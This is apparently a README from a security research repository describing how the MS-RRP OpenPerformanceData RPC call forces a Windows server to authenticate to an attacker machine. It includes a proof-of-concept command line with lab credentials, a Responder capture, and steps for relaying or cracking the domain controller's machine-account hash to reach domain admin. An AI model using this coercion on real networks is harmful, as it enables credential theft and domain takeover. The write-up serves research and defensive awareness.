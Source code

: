 # MS-RRP - Remote call to OpenPerformanceData (opnum 3)

## Summary

+ **Protocol**: [[MS-RRP]: Windows Remote Registry Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78)

+ **Protocol UUID**: 338cd001-2244-31f1-aaaa-900038001003

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\PIPE\winreg`

+ **Function name**: [`OpenPerformanceData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/7b514c63-6cad-4fe1-9780-743959e377e6)

+ **Function operation number**: `3`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\winreg` and bind to the desired [`MS-RRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78) protocol (with uuid `338cd001-2244-31f1-aaaa-900038001003` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-RRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\winreg` This pipe is connected to the protocol [[MS-RRP]: Windows Remote Registry Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78) and allows to call RPC functions of this protocol. We will then call the remote [`OpenPerformanceData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/7b514c63-6cad-4fe1-9780-743959e377e6) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
OpenPerformanceData('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
error_status_t OpenPerformanceData(
   [in, unique] PREGISTRY_SERVER_NAME ServerName,
   [in] REGSAM samDesired,
   [out] PRPC_HKEY phKey
 );
```

## References

+ Documentation of protocol [MS-RRP]: Windows Remote Registry Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78

+ Documentation of function `OpenPerformanceData`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/7b514c63-6cad-4fe1-9780-743959e377e6